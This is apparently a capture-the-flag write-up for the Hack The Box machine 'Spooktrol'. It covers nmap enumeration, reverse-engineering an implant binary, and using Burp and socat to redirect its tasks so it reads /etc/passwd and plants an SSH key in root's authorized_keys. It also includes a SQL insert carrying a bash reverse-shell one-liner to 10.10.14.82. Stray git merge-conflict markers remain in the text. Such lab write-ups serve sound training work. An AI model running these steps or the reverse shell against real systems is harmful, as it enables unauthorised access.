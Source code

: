 # Enumeration

## Nmap

```bash
sudo nmap -sV -sC -oA nmap/spooktrol 10.10.11.123

PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 ea:84:21:a3:22:4a:7d:f9:b5:25:51:79:83:a4:f5:f2 (RSA)
|   256 b8:39:9e:f4:88:be:aa:01:73:2d:10:fb:44:7f:84:61 (ECDSA)
|_  256 22:21:e9:f4:85:90:87:45:16:1f:73:36:41:ee:3b:32 (ED25519)
80/tcp   open  http    uvicorn
| http-robots.txt: 1 disallowed entry 
|_/file_management/?file=implant
|_http-server-header: uvicorn
|_http-title: Site doesn't have a title (application/json).
| fingerprint-strings: 
|   FourOhFourRequest: 
|     HTTP/1.1 404 Not Found
|     date: Wed, 27 Oct 2021 07:30:24 GMT
|     server: uvicorn
|     content-length: 22
|     content-type: application/json
|     Connection: close
|     {"detail":"Not Found"}
|   GetRequest: 
|     HTTP/1.1 200 OK
|     date: Wed, 27 Oct 2021 07:30:10 GMT
|     server: uvicorn
|     content-length: 43
|     content-type: application/json
|     Connection: close
|     {"auth":"1f74a681bac81a97711d9316b1da1e68"}
|   HTTPOptions: 
|     HTTP/1.1 405 Method Not Allowed
|     date: Wed, 27 Oct 2021 07:30:17 GMT
|     server: uvicorn
|     content-length: 31
|     content-type: application/json
|     Connection: close
|_    {"detail":"Method Not Allowed"}
2222/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 16:77:76:8a:65:a3:db:23:11:21:66:6e:e4:c3:f2:32 (RSA)
|   256 61:92:eb:7a:a9:14:d7:60:51:00:0c:44:21:a2:61:08 (ECDSA)
|_  256 75:c1:96:9c:69:aa:c8:74:ef:4f:72:bd:62:53:e9:4c (ED25519)

```


Three ports

- 22
- 80
- 2222

Downloading binary from `/file_management/?file=implant` as mentioned in robots.txt


```bash
wget 'http://10.10.11.123/file_management/?file=implant'
```

# Foothold

## Implant

On running the binary hit some error regarding `json`

<<<<<<< HEAD
![](https://github.com/alexanderajju/Hackthebox/blob/master/Spooktrol/Pasted%20image%2020211028162957.png)
=======
![](https://github.com/alexanderajju/Hackthebox/blob/master/Spooktrol/Pasted image 20211028162957.png)

>>>>>>> 0cf3892125c91a4866f070ba08cabceb82cf6c67


Running wireshark 

![](https://github.com/alexanderajju/Hackthebox/blob/master/Spooktrol/(Pasted%20image%2020211028164325.png)

we found the domain and need to add to `/etc/hosts` file.

Analyzing binary in ghidra 

![](https://github.com/alexanderajju/Hackthebox/blob/master/Spooktrol/(Pasted%20image%2020211028164739.png)

1st flag

![](https://github.com/alexanderajju/Hackthebox/blob/master/Spooktrol/(Pasted%20image%2020211028164912.png)

break at `0x402013` to get 1st flag using `gdb`.

`finish` the function then you will get the flag.

![](https://github.com/alexanderajju/Hackthebox/blob/master/Spooktrol/(Pasted%20image%2020211028165356.png)

# User

break at system in upload funtion in case 3

![](https://github.com/alexanderajju/Hackthebox/blob/master/Spooktrol/(Pasted%20image%2020211028165651.png)


inorder to acheive case three we can use burpsuite, first we need to interscept at locally the binnary 

change host file as following.

![](https://github.com/alexanderajju/Hackthebox/blob/master/Spooktrol/(Pasted%20image%2020211028165920.png)

Then add a second proxy at burp.

![](https://github.com/alexanderajju/Hackthebox/blob/master/Spooktrol/(Pasted%20image%2020211028170055.png)

Thirdly use socat to redirect port 8081 to port 80

`sudo socat TCP-LISTEN:80,fork,reuseaddr TCP:127.0.0.1:8081`

next use match and replace to change reponse task1 to task3

![](https://github.com/alexanderajju/Hackthebox/blob/master/Spooktrol/(Pasted%20image%2020211028170359.png)

its worked.

```bash

┌[parrot]─[17:03-28/10]─[/home/aju/Hackthebox/machines/spooktrol]
└╼aju$./implant
{"status":0,"id":3,"arg1":"whoami","result":"","target":"1ed93eb3a3e09689276ab2412390db3e","task":3,"arg2":""}
curl: (26) Failed to open/read local data from file/application
{"status":0,"id":3,"arg1":"whoami","result":"","target":"1ed93eb3a3e09689276ab2412390db3e","task":3,"arg2":""}
curl: (26) Failed to open/read local data from file/application


```

It returned as an error beause it is looking for some like we need to find that using gdp. lets break at system.

![](https://github.com/alexanderajju/Hackthebox/blob/master/Spooktrol/(Pasted%20image%2020211028184718.png)

On examine at $rdi we can find that it is looking for file `whoami` lets replace that in burpsuite in `match and replace` into `/etc/passwd`


![](https://github.com/alexanderajju/Hackthebox/blob/master/Spooktrol/(Pasted%20image%2020211028184924.png)


we got replaced in next attempt.

![](https://github.com/alexanderajju/Hackthebox/blob/master/Spooktrol/(Pasted%20image%2020211028185028.png)


![](https://github.com/alexanderajju/Hackthebox/blob/master/Spooktrol/(Pasted%20image%2020211028185049.png)
Now lets change `/etc/passwd` to our ssh public key


![](https://github.com/alexanderajju/Hackthebox/blob/master/Spooktrol/(Pasted%20image%2020211028185303.png)


upload the public to root's authorized_keys

![](https://github.com/alexanderajju/Hackthebox/blob/master/Spooktrol/(Pasted%20image%2020211028185412.png)

# Root

Logged in as root in docker.


![](https://github.com/alexanderajju/Hackthebox/blob/master/Spooktrol/(Pasted%20image%2020211028185502.png)

![user](https://github.com/alexanderajju/Hackthebox/blob/master/Spooktrol/Pasted%20image%2020211028185502.png)


insert reverse into database task

`INSERT INTO tasks VALUES(13,'10a6dd5dde6094059db4d23d7710ae12',0,1,'bash -c "bash -i >& /dev/tcp/10.10.14.82/9001 0>&1"','',X'726f6f740a');`

![](https://github.com/alexanderajju/Hackthebox/blob/master/Spooktrol/(Pasted%20image%2020211028190236.png)

Got reverse shell as root


![](https://github.com/alexanderajju/Hackthebox/blob/master/Spooktrol/(Pasted%20image%2020211028190141.png)

![](Pasted image 20211028190141.png)

